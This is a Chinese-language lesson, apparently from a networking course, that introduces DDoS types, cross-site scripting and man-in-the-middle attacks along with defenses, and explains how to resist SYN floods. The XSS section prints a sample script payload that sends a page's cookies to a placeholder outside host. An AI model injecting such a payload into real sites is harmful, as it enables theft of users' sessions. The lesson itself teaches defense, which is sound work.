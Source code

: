 <p data-nodeid="3">安全无小事。2016 年 DNS 提供商 Dyn 遭遇了一次大规模的 DDoS（分布式拒绝服务攻击），有 14000 个网站域名受到影响。2020 年 7 月份，Twitter 遭大规模攻击，黑客控制了包括马斯克、盖茨、奥巴马等人的 Twitter 账号，诱导用户购买比特币，最终骗取了 11W 美金。2021 年 4 月份，还有黑客利用 Github 的 Actions（Github 的一种 CI/CD 方案），诱导用户进行 git 操作时触发恶意比特币的矿机。</p>
<p data-nodeid="4">特别是在中国这种人口基数大，互联网发达的国家，如果一个互联网公司的安全出了故障，那么影响将是巨大的。前几年，我们国家出现过一起影响较大的安全问题——某知名技术社区用户的用户名和密码被大规模泄露。前车之鉴、后车之覆，我们要吸取教训。因此，这一讲我们就以“<strong data-nodeid="54">如何抵御 SYN 拒绝攻击</strong>”为引，开启今天的学习，让你对网络安全的常见攻防手段有一个初步了解。</p>
<h3 data-nodeid="5">拒绝服务攻击（DoS)</h3>
<p data-nodeid="1166" class="te-preview-highlight"><strong data-nodeid="1179">拒绝服务攻击</strong>（<strong data-nodeid="1180">Denial-of-Service Attack，DoS</strong>）<strong data-nodeid="1181">是一种常见的攻击手段</strong>。虽然目前互联网越来越趋向于正规化，但是对于黑产还有利用 DoS 攻击黑吃黑的现象。比较常见的就是热血传奇这款游戏的私服，搭建一个私服可以获得大额非法收入，但是因为是黑产也会经常受到黑客的攻击。黑客攻击后，再发邮件到管理员邮箱索取金钱，威胁用户不尽快打款就会一直攻击。</p>


<p data-nodeid="7">在过去，黑产间的攻阀，DoS 就可以作为一种常见武器。<strong data-nodeid="78">DoS 的原理就是利用大量的流量迅速向一个网站发送出去</strong>。这种流量可能是应用层的，比如大量 HTTP 请求；也可以是传输层，比如大量的 TCP 请求。比如 2018 年 2 月 18 日，Github 就遭受了一场超大规模的 DoS 攻击，瞬间流量峰值达到了 1.35Tbps。之后，黑客还对 Google、亚马逊等网站也进行了攻击。</p>
<p data-nodeid="8">为了形成足够强大的流量，攻击者往往没有足够的经济实力购买机器，而是利用中病毒、木马的机器组织流量攻击。这些中病毒的机器，我们俗称“肉鸡”。顶级的黑客往往控制着大量的肉鸡，一声令下，肉鸡就开始疯狂向目标发送网络封包，直到打垮目标。因为肉鸡是分散在世界各地的，因此这种攻击我们也称为<strong data-nodeid="88">分布式拒绝服务攻击</strong>（<strong data-nodeid="89">Distributed Denial-of-Service Attack， DDoS</strong>）。</p>
<h4 data-nodeid="9">DDoS 的种类</h4>
<p data-nodeid="10">DDoS 的种类有很多，手段也很复杂。</p>
<ul data-nodeid="11">
<li data-nodeid="12">
<p data-nodeid="13">直接不停发送 Ping 消息的，利用底层的 ICMP 协议，称为<strong data-nodeid="96">ICMP 攻击；</strong></p>
</li>
<li data-nodeid="14">
<p data-nodeid="15">走 UPD 协议的，称为<strong data-nodeid="106">UDP 洪水</strong>（<strong data-nodeid="107">UDP Flood</strong>）；</p>
</li>
<li data-nodeid="16">
<p data-nodeid="17">不停利用 TCP 协议发送 SYN 消息的，也叫<strong data-nodeid="112">SYN 攻击；</strong></p>
</li>
<li data-nodeid="18">
<p data-nodeid="19">模拟用户行为，不停发帖、浏览帖子、浏览网页、加购物车等，称为<strong data-nodeid="122">挑战黑洞攻击</strong>（<strong data-nodeid="123">Challenge Collapsar</strong>）。</p>
</li>
</ul>
<h4 data-nodeid="20">防范措施</h4>
<p data-nodeid="21">当遇到 DDoS 攻击的时候，如果有所准备，就可以做到有备无患。比如说购买了防火墙，防火墙会根据特征识别出攻击行为，通过这样的方式将攻击行为过滤掉，让系统不会因为 DDoS 而过载造成崩溃。</p>
<p data-nodeid="22">当然如果是纯粹的流量攻击，仅仅靠防火墙是不够的。通常一些大型互联网公司会进行多活建设。一般是两地三机房，分别是日常生产环境、同城灾备环境和异地灾备环境，遇到 DDoS 可以考虑切换流量，也能起到一定作用。</p>
<p data-nodeid="23">另外 CDN 在解决 DDoS 时往往也有很好的效果，毕竟 CDN 是大量缓存节点，DDoS 攻击 CDN 的时候用不上力。当然，如果资金不足以购买服务器的小团队，可以自己实现软件防火墙。其实就是设计一台吞吐量极高的代理服务器，作为反向代理挡在所有服务前面，如果遇到 DDoS，代理服务器可以识别出一些特征并丢弃一些流量。</p>
<p data-nodeid="24">在遇到攻击的时候，对服务适当降级也是有必要的，甚至可以牺牲一部分用户保全另一部分用户的正常使用。防火墙是基于特征识别，本身也会有一定的误杀现象，在被攻击的时候，可以人为降低判定攻击行为的门槛。通过允许防火墙造成一部分的误伤来识别出更多的攻击流量。</p>
<h3 data-nodeid="25">跨站脚本攻击（XSS）</h3>
<p data-nodeid="26">接下来我们讨论另一种攻击——<strong data-nodeid="135">跨站脚本攻击</strong>。</p>
<p data-nodeid="27">2021 年 2 月印度的一名测试工程师在苹果 iCloud 官网中发现了一个跨站脚本攻击漏洞，并向苹果公司提交了具体的漏洞说明和触发的操作步骤。事后，苹果公司给这名印度人发放了 5000 美金的奖金。</p>
<p data-nodeid="28"><strong data-nodeid="141">跨站脚本（Cross Site Scripting），顾名思义，就是利用漏洞将脚本注入网页中</strong>。比如提交个人信息的输入框，如果在服务端没有处理好就有可能触发跨站脚本。</p>
<p data-nodeid="29">假设有一个输入个人签名的多行文本输入框，正常用户会输入几句有趣的话，但是黑客可能会尝试输入：</p>
<pre class="lang-java" data-nodeid="30"><code data-language="java">&lt;script&gt;document.createElement('img').src="https://some.site.com?cookie=document.cookie"&lt;/script&gt;
</code></pre>
<p data-nodeid="31">如果这段话被显示到用户的个人主页，那么访问这个用户空间的其他用户就会被攻击，进而被黑客拿走 Cookie 中的关键信息。</p>
<p data-nodeid="32">XSS 攻击模式很简单，就是想办法向网站的页面上注入脚本。总的来说，输入框是一个重灾区。目前随着前端技术的发展，使用前端框架，比如 React 或 Vue 开发的页面已经杜绝了被 XSS 的可能。但是有时候如果工作出现某些疏漏，还是会导致 XSS 的发生。所以正确的做法是上线前拜托安全部门的同学协助进行一些针对 XSS 漏洞的扫描。</p>
<h3 data-nodeid="33">中间人攻击</h3>
<p data-nodeid="34">接下来我们聊聊<strong data-nodeid="151">中间人攻击</strong>。</p>
<p data-nodeid="35">我们国家目前在打击网络电信诈骗案中，就有这样一种形式。一些不法分子利用伪基站，比如找一个人多的地方，用自己的伪基站设备伪装成基站，向用户提供网络。一些离不法分子较近的人，手机可能会连接上伪基站。连接上后，不法分子的伪基站就成了你上网的代理，可以进行很多非法操作。因此，从这个角度看，中间人黑进你附近的网络，成为你上网的“代理”，并不是非常难的一件事情。不懂技术的犯罪分子，通过购买伪基站设备，就可以充当中间人。</p>
<p data-nodeid="36">在遇到中间人攻击时，互联网的信用体系、操作系统、浏览器等就会帮你把好最后一关。比如你访问淘宝购物，中间人向你投放假网页。浏览器就会去验证这个假网页的证书，是不是淘宝的证书。去年 Github 在国内疑似被中间人攻击的案例中，国内很多用户看到的现象是浏览器提示用户浏览的网站不安全。这种情况就是浏览器在校对证书的时候发现了疑点。如果你上网遇到这种情况应该选择立即关闭这个网页，不进行后续的操作，防止被骗。</p>
<h3 data-nodeid="37">总结</h3>
<p data-nodeid="38">生活在当今时代，作为个人，网络安全是一件大事。你的购票信息、出行记录、账号密码、位置信息等，都需要你有防范意识，防止被不法分子拿走。在为公司工作的时候，要保管好自己的账号。特别是你工作用的计算机，要远离非正规渠道获得的软件。你的工作计算机一旦中了木马，成了肉鸡，那不法分子完全可以用你的工作计算机作为跳板，登录公司服务器。</p>
<p data-nodeid="39">另一方面，作为公司和团队，也要有较强的安全意识。当然，安全领域有自己的专业知识和人才。在互联网产品初期，往往承担不起昂贵的防火墙和雇佣安全专家的费用，这个时候需要开发者主动去学习安全知识，尽可能提升被攻破的成本。当业务发展到一定程度后，就需要马上雇佣安全专家，以及购买包括防火墙在内的网络安全设备。</p>
<p data-nodeid="40">好的，那么通过这一讲的学习，你现在可以尝试来回答：如何抵御 SYN 拒绝攻击？</p>
<p data-nodeid="41">【<strong data-nodeid="163">解析</strong>】SYN 攻击是 DDoS 攻击的一种形式。这种形式攻击者伪装成终端不停地向服务器发起 SYN 请求。通常攻击者的肉鸡，发送了 SYN 之后，不等给服务端 ACK，就下线了。 这样攻击者不断发送 SYN ，然后下线，而服务端会等待一段时间（通常会在 3s 以上），等待 ACK。这样就导致了大量的连接对象在服务端被积累。</p>
<p data-nodeid="42">针对这个特点可以实现一个 TCP 代理（防火墙），发现有发送 SYN 但是不给 ACK 的行为就对目标 IP 地址禁用一段时间。这个策略平时可以配置成开关，等到被攻击的时候打开。另一方面，可以适当提升连接数支持。</p>
<h3 data-nodeid="43">思考题</h3>
<p data-nodeid="44">思考题目：哪些情况下你服务器的 /etc/passwd 文件会被黑客拿走？</p>



